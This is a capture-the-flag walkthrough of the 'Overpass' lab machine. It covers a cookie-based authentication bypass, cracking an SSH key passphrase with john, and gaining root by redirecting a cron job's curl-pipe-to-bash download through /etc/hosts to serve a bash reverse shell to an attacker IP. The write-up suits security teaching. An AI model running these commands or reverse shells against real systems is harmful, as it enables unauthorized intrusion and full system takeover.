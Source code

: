 # Overpass

**Target IP:** `10.10.17.200` <br>
From `nmap` results we have to open ports:<br>
```nmap
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```
Let's look at the http server.
![http server](https://i.ibb.co/1vqCb4N/2.png)
![The dwnloads page](https://i.ibb.co/L5QhMYp/3.png)
I downloaded the executable for linux and the scripts that apparently are going to help us.
I tried to execute the file.
![Executing the file](https://i.ibb.co/wMD2b9z/4.png)
Let's get into the source code and understand what is going on there. Open script `overpass.go`
We have function **saveCredsToFile** there. And we can see the it takes few arguments there one of which is **filepath**.
In the line 181 we can see that the script uses the function. `saveCredsToFile(credsPath, passlist)` and it uses **credsPath** as filepath.
In the line 140 we can find the credsPath variable. `credsPath, err := homedir.Expand("~/.overpass")`.<br>
So now we know that the encrypted passwords are saved in our home directory.
Here is what we get when we are trying to read the **.overpass** file. 
![.overpass](https://i.ibb.co/0Qd2332/5.png)
It looks like **rot47** encryption. Let's go to **cyberchef** and try to decrypt it.<br>
![Cyberchef](https://i.ibb.co/b2XG0xb/6.png)
So now we know how the script works and where it keeps the passwords.

Also we got interesting comment in the line 91. The comment tells us a name. **steve**. It can be one of the developers and we can try to bruteforce into his ssh. But even if they use this unsecure password manager, probably, we cannot just gues the password. So, let's think about some other way.

Also, **gobuster** found admin page there. But we need credentials to log in there.
Let's look how the authentication form works.
I found this function there:
```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```
It looks like it makes a request to some api and depends on response it allows or disallows into the admin.
If we take the hint for the first task we can see that this is going to be owasp10 vulnerability and there is no bruteforcing. We can suppose that the vulnerability here is broken authentication and we might be able to bypass the authentication check by just setting the SessionToken cookie to anything.
We can run this code in the browser console to exploit the vulnerability.<br>
`Cookies.set("SessionToken", "")`
Refresh the page and now we are here:
![admin page](https://i.ibb.co/LkNrg6j/7.png)<br>
It looks like there is a private key for james. So let's copy it and try to ssh with it.
The private key works but it wants a passphrase for it. We can crack it with ssh2john and john.<br>
`ssh2john p_id > hash.txt`<br>
`john hash.txt`<br>
The password is **james13**. <br>
Let's ssh into james account.
And now we got the first flag.
![todo.txt](https://i.ibb.co/HtQmk7Q/8.png)<br>
We got these notes there that can give us some more information.<br>
We already know about the **.overpass** file so let's read it.<br>
Here is what we got from there.
![cyberchef](https://i.ibb.co/SmRxDVg/9.png) <br>
`[{"name":"System","pass":"saydrawnlyingpicture"}]`<br>
we can also read **/etc/crontab**<br>
```crontab
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```
We can see that it always trying to download **buildscript.sh** from **overpass.thm/downloads/src/**. <br>
God is being glorius today and we can change the **/etc/hosts/** file. So we need to and there the following line:
`<our ip> overpass.thm`. It is going to create a link to our ip instead of the ip that it is supposed to.
In our machine we have to create the environment for this.<br>
`mkdir -m downloads/src/`<br>
Then in the src folder we have to create our file **buildscript.sh** and put there our reverse shell.<br>
`echo "bash -i >& /dev/tcp/10.2.38.40/4444 0>&1" > downloads/src/buildscript.sh`<br>
Now we have to run **nc** to listen to the port that we specified in the reverse shell.<br>
`nc -lvnp 4444`<br>
And finally in the other terminal session we need to start simple python server<br>
`python3 -m http.server 80` **Remember, we need to run it in the parent folder of folder downloads that we created before.**
After few seconds we got the reverse shell to the root user in our nc terminal session.<br>
And now we got the root flag.
